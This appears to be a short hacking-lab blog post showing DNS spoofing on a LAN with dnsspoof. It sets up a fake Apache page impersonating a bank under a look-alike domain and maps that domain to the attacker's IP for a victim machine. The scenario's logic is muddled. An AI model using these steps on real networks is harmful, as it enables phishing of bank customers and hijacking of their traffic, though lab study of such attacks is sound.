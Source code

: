 ```yaml
---
layout: post
title: Redirect Access Websites In LAN Using Dnsspoof  
categories: Hacking-Lab
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [hacking, dnsspoof, redirect dns, dns spoofing ]

---
```

## Script:  
Attacker and victim in a LAN network together and victim want to access to websites **www.bankofamerica.com** to make transactions.  
Because **www.bankofamerica** is protected by SSL so attacker can not attack by fake **www.bankofamerica.com**  in their computer. So  
they create a websites has the similar name in their computer, call **www.bankofamerrica.com**, then they find the way to seek to  
make someone else visit **www.bankofamerrica.com** instead **www.bankofamerica.com**.  
## 1. Network Model:  
- **Attacker: 192.168.1.92**
- **User: 192.168.1.173 using windows 7 system**   


## 2. Create Webserver:   
We can you service apache2 in kali linux to create a webserver. we should change content of index.html.    
```
vi /var/www/html/index.html
```    
Type: This Is Fake Websites Of www.bankofamerica.com   
  
 ![](/assets/img/2020-3-1-index.png)  
```
service apache2 start 
```    

## 3. Attack:  
```
vi /usr/local/hosts
```    
Type: 
```
192.168.1.92  www.bankofamerrica.com  
```  
>:warning: **Warning:** use **TAB** between ip and domain.  

 
```    
dnsspoof -f /usr/local/hosts
```  

## Result:
![](/assets/img/2021-3-1-result.png)  
![](/assets/img/2020-3-1-result-dnsspoof.png)  

DNS query in wireshark:  
![](/assets/img/2021-3-1-show-dns-query.png)  

